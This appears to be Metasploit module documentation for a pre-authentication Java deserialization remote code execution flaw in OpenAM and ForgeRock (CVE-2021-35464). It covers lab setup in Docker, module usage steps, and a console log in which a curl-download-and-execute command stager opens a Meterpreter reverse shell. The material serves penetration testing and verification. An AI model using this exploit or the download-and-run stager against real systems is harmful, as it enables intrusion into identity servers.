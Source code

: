 ## Vulnerable Application

### Description

This module leverages a pre-authentication remote code execution vulnerability in the OpenAM identity and access
management solution. The vulnerability arises from a Java deserialization flaw in OpenAM’s implementation of the Jato
framework and can be triggered by a simple one-line GET or POST request to a vulnerable endpoint. Successful
exploitation yields code execution on the target system.

This vulnerability also affects the ForgeRock identity platform which is built on top of OpenAM and is thus
is susceptible to the same issue.
### Installation


#### OpenAM on Ubuntu 20.04.2 x64 with Docker version 20.10.2

1. `sudo docker run -h localhost -p 7080:8080 --name openam openidentityplatform/openam`
1. Navigate to http://<ip_address>:7080/openam
1. Follow manual configuration steps. Automatic configuration appears to fail.
1. Except where otherwise noted, use the default configuration values and set password fields where required.
    1. In Step 3, set the ports to the following values
        * DIRECTORY_ADMIN_PORT = 4444
        * DIRECTORY_JMX_PORT = 1689
        * DIRECTORY_PORT = 389
    1. In Step 4, select "OpenAM User Data Store"

## Verification Steps

1. OpenAM
1. Perform manual configuration of OpenAM
1. Do: `use exploit/multi/http/multi/http/cve_2021_35464_forgerock_openam`
1. Do: `set RHOST <ip>`
1. Do: `set LHOST <ip>`
1. Do: `set LPORT <port>`
1. Do: `run`
1. You should get a Meterpreter session.

## Scenarios

#### OpenAM on Ubuntu 20.04.2 x64 with Docker version 20.10.2
```
msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > show options

Module options (exploit/multi/http/cve_2021_35464_forgerock_openam):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.134.134  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      7080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local mac
                                         hine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.135.197  yes       The listen address (an interface may be specified)
   LPORT  8443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(multi/http/cve_2021_35464_forgerock_openam) > run

[*] Started reverse TCP handler on 192.168.135.197:8443 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/Zrrhm8JKIL8QB2Q
[*] Local IP: http://192.168.135.197:8080/Zrrhm8JKIL8QB2Q
[*] Generated command stager: ["curl -so /tmp/wMKsYYMP http://192.168.135.197:8080/Zrrhm8JKIL8QB2Q;chmod +x /tmp/wMKsYYMP;/tmp/wMKsYYMP;rm -f /tmp/wMKsYYMP"]
[+] Successfully executed command: curl -so /tmp/wMKsYYMP http://192.168.135.197:8080/Zrrhm8JKIL8QB2Q;chmod +x /tmp/wMKsYYMP;/tmp/wMKsYYMP;rm -f /tmp/wMKsYYMP
[*] Client 192.168.134.134 (curl/7.64.0) requested /Zrrhm8JKIL8QB2Q
[*] Sending payload to 192.168.134.134 (curl/7.64.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 192.168.134.134
[*] Command Stager progress - 100.00% done (123/123 bytes)
[*] Meterpreter session 11 opened (192.168.135.197:8443 -> 192.168.134.134:44944) at 2021-07-02 15:59:30 -0500
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 10.9 (Linux 5.8.0-53-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: openam @ localhost (uid=1001, gid=0, euid=1001, egid=0)
meterpreter > 

```

